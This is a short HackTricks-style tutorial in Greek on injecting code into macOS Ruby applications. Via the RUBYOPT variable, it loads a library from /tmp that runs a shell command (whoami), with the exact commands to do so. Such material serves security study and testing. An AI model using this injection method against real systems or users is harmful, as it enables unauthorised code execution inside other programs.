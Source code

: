 # macOS Ruby Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

Χρησιμοποιώντας αυτήν την μεταβλητή περιβάλλοντος είναι δυνατόν να **προσθέσετε νέες παραμέτρους** στη **ruby** όποτε εκτελείται. Αν και η παράμετρος **`-e`** δεν μπορεί να χρησιμοποιηθεί για να καθορίσει τον κώδικα ruby προς εκτέλεση, είναι δυνατόν να χρησιμοποιηθούν οι παράμετροι **`-I`** και **`-r`** για να προστεθεί ένας νέος φάκελος στη διαδρομή φόρτωσης βιβλιοθηκών και στη συνέχεια **να καθορίσετε μια βιβλιοθήκη για φόρτωση**.

Δημιουργήστε τη βιβλιοθήκη **`inject.rb`** στο **`/tmp`**:
```ruby:inject.rb
puts `whoami`
```
Δημιουργήστε οπουδήποτε ένα σενάριο ruby όπως:
```ruby:hello.rb
puts 'Hello, World!'
```
Στη συνέχεια, κάντε ένα αυθαίρετο σενάριο ruby να το φορτώσει με:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
Διασκεδαστικό γεγονός, λειτουργεί ακόμη και με την παράμετρο **`--disable-rubyopt`**:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}
